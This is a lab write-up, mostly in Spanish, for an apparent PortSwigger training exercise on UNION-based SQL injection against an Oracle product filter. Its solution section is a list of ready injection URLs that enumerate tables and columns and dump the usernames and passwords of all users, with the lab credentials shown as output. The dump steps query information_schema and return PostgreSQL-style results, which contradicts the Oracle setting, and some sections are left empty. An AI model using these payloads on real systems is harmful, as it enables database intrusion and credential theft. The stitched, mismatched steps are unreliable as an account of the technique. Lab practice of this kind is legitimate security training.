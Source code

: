 # `LAB`: SQL injection attack, listing the database contents on Oracle

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user. 

## Hint

On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.

There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual` 

### Oracle Cheastsheet:

- [PortSwigger - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


---

### Explicación:

- Muy similar a los laboratorios anteriores enfocados a `Oracle`
- En este caso es llegar hasta el login con `adminsitrador`
- Es un poco diferente a MySQL el dump de información de Oracle, así que pondré el proceso completo:

---

### Explicación para enumerar `DB Info`, `Tablas`, `Columnas` y `Data` Oracle

**`DB Info`:** Enumerar en Oracle Base de Datos, versión, etc:

````sql
# Banner:
SELECT banner FROM v$version
# Version:
SELECT version FROM v$instance
````

**`Tablas`:** En Oracle se pone originalmente para mostrar todas las tables:

````sql
# Enumerar nombres de tablas:
SELECT table_name FROM all_tables;
````

Para seleccionar solo la base de datos que estamos usando en Oracle es más fácil utilizar los usarios que utilizan la DB _(en este caso el más obvio de un user no default era "Peter")_:

````sql
# Enumerar propietarios de tablas:
SELECT table_name FROM all_tables WHERE owner = 'PETER';
````

**`Columnas`:** En Oracle se pone originalmente para mostrar las columnas




## Solución:

````py
# Vulnerabilidad y sanamiento
.web-security-academy.net/filter?category=Pets' -- -

# Mostrar info oculta (opcional)
.web-security-academy.net/filter?category=Pets' or 1 = 1 -- -

# Fuzzing Número de Columnas
.web-security-academy.net/filter?category=Pets' order by 2 -- -

## Columnas vulnerables: Como es caso de Oracle NO SIRVE el siguiente query:
.web-security-academy.net/filter?category=-Pets' Union Select '1','2' -- -

## Columnas vulnerables: Este es el que se debe utilizar, con la default table "dual":
.web-security-academy.net/filter?category=-Pets' Union Select '1','2' FROM dual -- -

    ### Enumer Tablas:

# Utilizar sintaxis Oracle para enumerar:








## Dumpear la base de Datos:
.web-security-academy.net/filter?category=-Pets' Union Select '1',schema_name FROM information_schema.schemata -- -
    # information_schema
    # public
    # pg_catalog

## Dumpear el Nombre de las Tablas:
.web-security-academy.net/filter?category=-Pets' Union Select '1',table_name FROM information_schema.tables WHERE table_schema = 'public' -- -
    # products
    # users_tcaine

## Dumpear el Nombre de las Columnas:
.web-security-academy.net/filter?category=-Pets' Union Select '1',column_name FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users_tcaine' -- -
    # password_wyuxxb
    # username_fzanak

## Dumpear los Datos
.web-security-academy.net/filter?category=-Pets' Union Select '1',concat(password_wyuxxb,' ::: ',username_fzanak) from users_tcaine -- -
.web-security-academy.net/filter?category=-Pets' Union Select '1',password_wyuxxb||' : '||username_fzanak from users_tcaine -- -
    # ybh5rrmndjm9grpgaac3 ::: administrator
    # f18xc226xxi0tb4g9zpv ::: carlos
    # onix1tykwp2vvyphg0gb ::: wiener
````
